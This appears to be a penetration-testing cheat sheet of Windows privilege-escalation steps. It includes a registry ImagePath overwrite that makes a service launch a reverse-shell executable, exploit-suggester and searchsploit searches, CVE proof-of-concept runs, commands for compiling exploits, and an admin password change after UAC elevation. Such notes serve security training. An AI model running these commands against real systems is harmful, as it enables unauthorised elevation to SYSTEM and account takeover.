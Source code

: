 **Weak Registry Permissions**
1. Query a service. Check if it runs with `SYSTEM` privileges (check `SERVICE_START_NAME`)
   - `sc qc <service>`
2. Use AccessChk to check the write permissions of the registry entry for the service
   - note: `NT AUTHORITY\INTERACTIVE` group means all logged-on users
   - `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service>`
3. Overwrite the ImagePath registry key to point to the reverse shell executable: `reg add HKLM\SYSTEM\CurrentControlSet\services\<service> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`
4. Start a listener on the attacker machine and run the service

**DLL Hijacking**
- See: [DLL Hijacking](#dll-hijacking)

### CVEs

- Check if `CVE-2018-8120` works
- See programs in `Program Files` and `(x86)` and search for CVEs
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Note: Hotfix means patches, if you see N/A means that nothing has been patches
- See if you can connect as RDP to more easily find other vulnerable installed applications

**Run**
- `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`
- `python windows-exploit-suggester.py --database 2023-09-12-mssb.xls --systeminfo systeminfo.txt`
- if you can't use `systeminfo`, try `wmic qfe list full` and save it as `systeminfo.txt`
- `searchsploit Windows Server 2012 Privilege`

**Windows Server 2008**
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

**CVE-2018-8440**
- If you see Hotfix N/A + write priv in `C:\Windows\tasks`
  - run to see if you have write priv: `icacls C:\Windows\Tasks`
- Try to run `/home/kali/Documents/windows-attack/CVE/CVE-2018-8440/Release/poc.exe`

**See the version of an exe**
- `Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force`

**Compile exploits**
- `cl 42020.cpp /EHsc /DUNICODE /D_UNICODE`
- `gcc -o output.c input.c`
- `gcc -m32 -o output.c input.c`
- `g++ your_program.cpp -o your_program`
- `i686-w64-gcc adduser.c -o adduser.exe`
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
- `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`
- `mcs Wrapper.cs`

### User Account Control (UAC)

Example:
- Even if we are logged in as an administrative user, we must move to a high integrity level in order to change the admin user's password.
- To do it, run the following commands
  ```PowerShell
  <# spawn a cmd.exe process with high integrity #>
  powershell.exe Start-Process cmd.exe -Verb runAs
  
  <# successfully changing the password of the admin user after spawning cmd.exe with high integrity #>
  whoami /groups
  net user admin Ev!lpass
  ```
  